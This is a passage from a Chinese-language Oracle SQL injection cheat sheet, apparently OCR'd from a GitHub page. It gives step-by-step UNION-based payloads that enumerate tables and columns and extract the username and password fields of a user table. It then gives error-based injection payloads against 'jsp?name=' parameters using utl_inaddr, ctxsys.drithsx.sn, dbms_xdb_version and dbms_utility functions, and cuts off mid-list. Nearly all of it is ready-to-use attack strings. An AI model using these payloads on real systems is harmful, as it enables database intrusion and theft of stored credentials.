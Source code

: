 and 1=2 union select null,(select table\_name from user\_tables where rownum=1 and table\_name<>'STUDENT'),null from dual-- //第二个表名

获取关键表中的列名：

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and rownum=1),null from dual --

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and column\_name<>'SUSER' and rownum=1),null from dual --

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and column\_name<>'SUSER' and column\_name<>'SPWD' and rownum=1),null from dual --

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and column\_name<>'SUSER' and column\_name<>'SPWD' and column\_name<>'SNAME' and rownum=1),null from dual --

and 1=2 union select SNAME,SUSER,SPWD from T\_USER where id=1-- //查看数据

### 第二种常规注入

确定回显位，假设当前共2个字段，全是数字型，判断方式如下：  
and 1=2 union select 1,2 from dual 假设回显位是2，爆当前数据库中的第一个表：  
and 1=2 union select 1,(select table\_name from user\_tables where rownum=1) from dual 爆当前数据库中的第二个表：  
and 1=2 union select 1,(select table\_name from user\_tables where rownum=1 and table\_name not in ('第一个表')) from dual 以此类推去爆第n个表  
爆某表中的第一个字段：  
and 1=2 union select 1,(select column\_name from user\_tab\_columns where rownum=1 and table\_name='表名（大写的）') from dual 爆某表中的第二个字段：  
and 1=2 union select 1,(select column\_name from user\_tab\_columns where rownum=1 and table\_name='表名' and column\_name not in ('第一个字段')) from dual 爆其它字段以此类推  
爆某表中的第一行数据：  
and 1=2 union select 1,字段1||字段2...||字段n from 表名 where rownum=1 --连接多个字段用到的连接符号是||,在oracle数据库中，concat函数只能连接两个字符串

### 报错注入

利用 utl\_inaddr.get\_host\_name  
这种方法在Oracle 8g，9g，10g中不需要任何权限，但是在Oracle 11g以及以后的版本中，当前数据库用户必须有网络访问权限。

jsp?name=' and 1=utl\_inaddr.get\_host\_name((select user from dual)) --

ctxsys.drithsx.sn()

jsp?name=' and 1=ctxsys.drithsx.sn(1,(select user from dual)) --

dbms\_xdb\_version.checkin()

jsp?name=1' and (select dbms\_xdb\_version.checkin((select user from dual)) from dual) is not null—

dbms\_utility.sqlid\_to\_sqlhash()

jsp?name=1' and (SELECT dbms\_utility.sqlid\_to\_sqlhash((select user from dual)) from dual) is not null --

XMLType()
